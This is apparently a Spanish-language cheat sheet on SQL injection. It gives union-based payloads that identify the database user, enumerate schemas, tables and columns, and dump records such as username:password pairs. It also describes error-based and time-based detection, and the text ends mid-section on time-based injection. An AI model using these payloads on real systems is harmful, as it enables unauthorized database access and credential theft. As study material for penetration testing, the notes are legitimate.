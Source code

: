 >Ver usuario que está runeando la base de datos:

```sql
' union select user()-- -
```

>Inyección SQL para que se muestren todos los nombres de las bases de datos:

```sql
' union select group_concat(schema_name) from information_schema.schemata-- -
```

>Enumerar todas las tablas de una base de datos en específico:

```sql
' union select group_concat(table_name) from information_schema.tables where table_schema='nombreDB'-- -
```

>Enumerar todas las columnas de una tabla específica de una base de datos específica:

```sql
' union select group_concat(column_name) from information_schema.columns where table_schema='nombreDB' and table_name='nombreTabla'-- -
```

>Ver todos los registros de una tabla que se encuentre dentro de la base de datos en la que está operando el buscador:

```sql
' union select group_concat(nombreColumna) from nombreTabla-- -
```

> Mostrar registros de 2 columnas separados por ":", por ejemplo, username:password, 0x3a son los ":" en hex se puede poner tmbn como ':' con las comillas simples pero es recomendable en formato hex:

```sql
' union select group_concat(columna1,0x3a,columna2) from nombreTabla-- -
```
## Error based sqli

> Sabemos que una base de datos es vulnerable a SQLI de diferentes formas, una de ellas es si al poner una comilla simple lanza un error de sintaxis SQL.

```sql
EJEMPLO --> Campo de búsqueda de un producto por id --> Input --> test'
```

>Si **no lanza el error** se puede seguir con el procedimiento de abajo enumerando de la siguiente manera mediante los **order by**.
>Si en el visual de la página ves que al poner **order by 1** sale algo en un producto existente por ejemplo, puede significar o que hay **una o más tablas infiriendo**, probar hasta que el resultado desaparezca determinará el número:
>Si tratas de hacer un **union select 1** e infieren 2 tablas en la query no saldrá nada, pero si pones **union select 1,2** e infieren dos tablas si se mostrará un resultado visualmente.

## Inyección basada en tiempo

>Otra forma de averiguar si es vulnerable es mediante una **inyección por tiempo**, si metes un sleep de 5 segundos y la página tarda 5 segundos en darte un resultado significa que **está interpretando tu query**, tratar de poner un parámetro que existe en la base de datos, en este caso un id=1:

